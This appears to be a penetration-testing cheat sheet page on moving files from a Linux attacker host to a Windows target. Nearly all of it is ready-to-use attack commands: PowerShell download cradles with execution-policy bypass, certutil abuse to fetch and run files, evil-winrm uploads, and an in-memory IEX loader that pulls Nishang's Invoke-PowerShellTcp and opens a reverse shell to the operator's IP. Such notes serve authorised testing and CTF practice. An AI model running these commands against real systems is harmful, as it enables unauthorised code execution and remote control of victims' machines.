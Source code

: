 ```yaml
---
title: "File Transfer (Linux to Windows)"
date: 2024-6-26
tags: ["Curl", "Http File Transfer", "File Transfer", "Windows", "Evil-Winrm", "IEX", "IWR", "certutil"]
---
```


{{< tab set1 tab1 active >}}Powershell{{< /tab >}}
{{< tab set1 tab2 >}}cmd{{< /tab >}}
{{< tab set1 tab3 >}}evil-winrm{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Start a Local HTTP Server

```console
python3 -m http.server <LOCAL_PORT>
```

<br>

```console
# Invoke-WebRequest
iwr http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> -o C:\ProgramData\<FILE>
```

<small>*Note: PowerShell 3.0+*</small>

```console
# Curl
powershell -ep bypass curl <LOCAL_IP>:<LOCAL_PORT>/<FILE> -o C:\ProgramData\<FILE>
```

<small>*Note: curl is not always available*</small>

```console
# Load into memory and Run
```

```console
# Invoke-Expression
iex (New-Object Net.WebClient).DownloadString('http://<LOCAL_IP>:<LOCAL_PORT>/rev.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <LOCAL_IP> -Port <LOCAL_PORT>
```

```console
# Short version
iex (iwr http://<LOCAL_IP>:<LOCAL_PORT>/rev.ps1)
```

<small>*Ref: [rev.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### Start a Local HTTP Server

```console
python3 -m http.server <LOCAL_PORT>
```

<br>

```console
certutil -urlcache -split -f http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> C:\ProgramData\<FILE>
```

```console
# Upload and Run
certutil -urlcache -split -f http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> C:\ProgramData\<FILE> && C:\ProgramData\<FILE>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
# Evil-winrm built-in function
upload '<LOCAL_FILE_PATH>' "C:\ProgramData\<FILE>"
```

{{< /tabcontent >}}

